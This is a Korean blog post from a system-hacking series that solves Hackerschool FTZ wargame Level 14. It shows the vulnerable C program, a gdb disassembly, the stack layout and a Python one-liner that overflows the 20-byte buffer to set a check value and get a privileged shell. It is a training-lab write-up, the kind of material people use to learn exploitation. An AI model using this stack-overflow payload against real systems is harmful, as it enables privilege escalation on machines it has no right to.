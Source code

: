 ```yaml
---
date: '2022-10-04'
before : '2022-10-03'
after : '2022-10-05'
title: '시스템 해킹(10) : 해커스쿨 FTZ 레벨 14'
categories: ['C-SEC', 'KOR','pwn']
summary: ''
thumbnail: './C_Sec.jpg'
---
```


### 0. 들어가기 전에

또다시 BOF 문제이다. 이번에는 입력 크기에 제한을 받았지만, 배열의 길이가 20인것에 반해 입력은 45까지(...) 받는다.


그리고 저번 문제와 다르게, check값만 일치한다면 shell을 실행해준다.


### 1. Level 14

바로 cat hint로 소스코드를 확인해보자.
```
#include <stdio.h>
#include <unistd.h>

main()
{ int crap;
  int check;
  char buf[20];
  fgets(buf,45,stdin);
  if (check==0xdeadbeef)
   {
     setreuid(3095,3095);
     system("/bin/sh");
   }
}
```

말했던 것처럼, 오버플로우가 충분히 일어날 수 있는 구조이다. 한 번 코드를 복사/컴파일 해서 gdb로 disassemble 해보자.

```
0x080483b8 <main+0>:    push   ebp
0x080483b9 <main+1>:    mov    ebp,esp
0x080483bb <main+3>:    sub    esp,0x38
0x080483be <main+6>:    and    esp,0xfffffff0
0x080483c1 <main+9>:    mov    eax,0x0
0x080483c6 <main+14>:   sub    esp,eax
0x080483c8 <main+16>:   sub    esp,0x4
0x080483cb <main+19>:   push   ds:0x80495d0
0x080483d1 <main+25>:   push   0x2d
0x080483d3 <main+27>:   lea    eax,[ebp-56] // char buf[20]
0x080483d6 <main+30>:   push   eax
0x080483d7 <main+31>:   call   0x80482d8 <fgets>
0x080483dc <main+36>:   add    esp,0x10
0x080483df <main+39>:   cmp    DWORD PTR [ebp-16] // if, 12-16 = int check
0x080483e6 <main+46>:   jne    0x804840d <main+85>
0x080483e8 <main+48>:   sub    esp,0x8
0x080483eb <main+51>:   push   0xc17
0x080483f0 <main+56>:   push   0xc17
0x080483f5 <main+61>:   call   0x80482f8 <setreuid>
0x080483fa <main+66>:   add    esp,0x10
0x080483fd <main+69>:   sub    esp,0xc
0x08048400 <main+72>:   push   0x80484bc
```

생각보다 어렵지 않은 구조다. 재구성해보면 :

```
char[20] // 56-36
dummy[20] // 36-16
int check // 16-12
```
따라서 40바이트의 \x90과 4바이트의 int의 값을 맞춰주면 된다. 1 바이트나 여유가 남는다(!)

```
@BufferOverflow :
(python -c 'print "A"*40+"\xef\xbe\xad\xde"'; cat) | ./attackme
```

비밀번호 : guess what


문제가 조금씩 어려워지고 있다. 얼른 Level20까지 끝냈으면...

---
## Source

- 해커스쿨 FTZ
- Me!
